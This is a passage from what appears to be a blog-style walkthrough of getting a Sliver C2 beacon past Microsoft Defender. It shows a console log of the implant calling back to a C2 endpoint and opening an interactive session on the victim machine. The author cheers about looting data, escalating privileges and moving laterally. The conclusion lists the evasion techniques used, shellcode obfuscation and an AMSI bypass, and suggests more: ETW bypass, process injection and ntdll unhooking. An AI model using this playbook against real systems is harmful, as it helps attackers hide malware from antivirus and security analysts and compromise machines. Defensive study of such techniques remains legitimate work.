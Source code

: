 This is so cool... It worked, we won the battle against Microsoft Defender.

And now, we loot all sensitive information :) and can Escalate our privileges, Move Laterally, Pivot to other servers or computers, well, just hack'em further.

```bash
[server] sliver > use f436035a-c591-4427-a3d8-68c0a8b1896a

[*] Active beacon FRENCH_PHRASE (f436035a-c591-4427-a3d8-68c0a8b1896a)

[server] sliver (FRENCH_PHRASE) > interactive

[*] Using beacon's active C2 endpoint: https://172.22.76.175:8088
[*] Tasked beacon FRENCH_PHRASE (979d6481)

[*] Session 6ef170c8 FRENCH_PHRASE - 172.22.64.1:39381  - windows/amd64 - Fri, 26 Sep 2025 10:20:15 

[server] sliver (FRENCH_PHRASE) > use 6ef170c8-96dc-41c7-a1d2-26dd8105be16

[*] Active session FRENCH_PHRASE (6ef170c8-96dc-41c7-a1d2-26dd8105be16)

[server] sliver (FRENCH_PHRASE) > ls

C:\source\repos\ProGamer2\ProGamer2\bin\x64\Release\net8.0 (5 items, 163.2 KiB)
===========================================================================================
-rw-rw-rw-  ProGamer2.deps.json           419 B      Fri Sep 26 10:00:40 +0200 2025
-rw-rw-rw-  ProGamer2.dll                 5.5 KiB    Fri Sep 26 10:00:40 +0200 2025
-rw-rw-rw-  ProGamer2.exe                 146.5 KiB  Fri Sep 26 10:00:40 +0200 2025
-rw-rw-rw-  ProGamer2.pdb                 10.5 KiB   Fri Sep 26 10:00:40 +0200 2025
-rw-rw-rw-  ProGamer2.runtimeconfig.json  340 B      Fri Sep 26 10:00:40 +0200 2025
```

# Conclusion
It is worth mentioning techniques such as the one used by this individual [shanekhantaun9](https://github.com/shanekhantaun9/RemoteLoader), an alternative which seems to work just well using the same concept of stages rather with a beacon/implant. 

So, well, here are the evasion techniques we ended up using:

- Shellcode obfuscation - so that, static analysis does not flag our malware
- AMSI Bypass - Antimalware Scan Interface (AMSI), speaks for itself, so the AV does not scan our malware

*That was sufficient enough to bypass Microsoft Defender, we could however, add*

- ETW Bypass - so that SOC Analyst do not find any trace of us being there
- Process Injection - so that, our malicious activities is covered/under a trusted process making everything less suspicious
- ndtll.dll unhooking - evading those Advance AV and EDR that monitor certain hooks for malicious activity
- and rewriting the whole code in C rather :) -  would make this malware even more stealthy overall
